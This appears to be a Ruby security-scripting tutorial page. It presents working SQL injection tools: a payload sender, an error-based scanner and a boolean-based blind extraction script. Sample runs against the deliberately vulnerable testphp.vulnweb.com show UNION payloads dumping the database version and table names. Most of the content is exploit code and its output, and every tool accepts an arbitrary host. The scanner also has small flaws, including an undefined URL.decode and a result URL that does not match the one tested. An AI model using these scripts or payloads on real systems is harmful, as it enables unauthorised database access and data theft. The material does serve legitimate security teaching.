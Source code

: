 # SQL Injection Scanner


## Basic SQLi script as command line browser

The is a very basic script take your given payload and send it to the vulnerable parameter and returns the response back to you. I'll use (http://testphp.vulnweb.com/) as it's legal to test.

```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
# puts "[+] Status code: "+ response.code + "\n\n"
# puts response.body.gsub(/<.*?>/, '').strip
puts response.body.scan(/<h2 id='pageName'>.*<\/h2>/).join.gsub(/<.*?>/, '').strip

puts ""
```


> I've commented the line `puts response.body.gsub(/<.*?>/, '').strip` and added a custom RegEx to fix our target outputs.



Let's to test it in action

```
ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL,NULL#" | grep -i -e warning -e error
# => Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 62

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL#" | grep -i -e warning -e error
# => 

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,@@VERSION,NULL#"
# => artist: 5.1.73-0ubuntu0.10.04.1

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables#" 
# => artist: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVIL
```





Here a very basic and simple SQL-injection solid scanner, develop it as far as you can!

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      "'",
      '"',
      "' or 1=2--+"
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occurred = vulnerable
puts "[+] The #{URL.decode(uri.to_s)} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil?

```

Try it on this url (http://testasp.vulnweb.com/showforum.asp?id=0)

Results
```
ruby sqli.rb http://testasp.vulnweb.com/showforum.asp?id=0
[+] The http://testphp.vulnweb.com/artists.php?artist=1' is vulnerable!
```

## Basic Boolean-bases SQLi Exploit Script

Here is a Boolean-based SQLi exploit for [sqli-labs](https://github.com/Audi-1/sqli-labs) vulnerable application 

```ruby
#!/usr/bin/env ruby
# Boolean-based SQLi exploit
# Sabri Saleh | @KINGSABRI
#
require 'open-uri'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} <IP ADDRESS>"
  exit 0
else
  host = ARGV[0]
end

# Just colorizing outputs
class String
  def red; colorize(self, "\e[1m\e[31m"); end
  def green; colorize(self, "\e[1m\e[32m"); end
  def bold; colorize(self, "\e[1m"); end
  def colorize(text, color_code)  "#{color_code}#{text}\e[0m" end
end

# SQL injection
def send_bbsqli(url, query)
  begin
    
    response = open(URI.parse( URI.encode("#{url}#{query}") ))
    
    if !response.read.scan("You are in...........").empty?
      return 1 # TRUE
    end
    
  rescue Exception => e
    puts "[!] Failed to SQL inject #{e}".red 
    exit 0
  end
end

url = "http://#{host}/sqli-labs/Less-8/index.php?id="

puts "[*] Start Sending Boolean-based SQLi".bold

extracted = []
(1..100).map do |position|
  (32..126).map do |char|
     puts "[*] Brute-forcing on Position: ".bold + "#{position}".green + " | ".bold + "Character: ".bold + "#{char} = #{char.chr}".green
     
     # Put your query here 
#      query = "1' AND (ASCII(SUBSTR((SELECT DATABASE()),#{position},1)))=#{char}--+"
     query = "1' AND (ASCII(SUBSTR((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1),#{position},1)))=#{char}--+"
     result = send_bbsqli(url, query)
         if result.eql? 1
           puts "[+] Found character: ".bold + "#{char.to_s(16)} hex".green
           
           extracted <<  char.chr
           puts "[+] Extracted chracters: ".bold + "#{extracted.join}".green
           break 
         end
   end
end

puts "\n\n[+] Final found string: ".bold + "#{extracted.join}".green
```

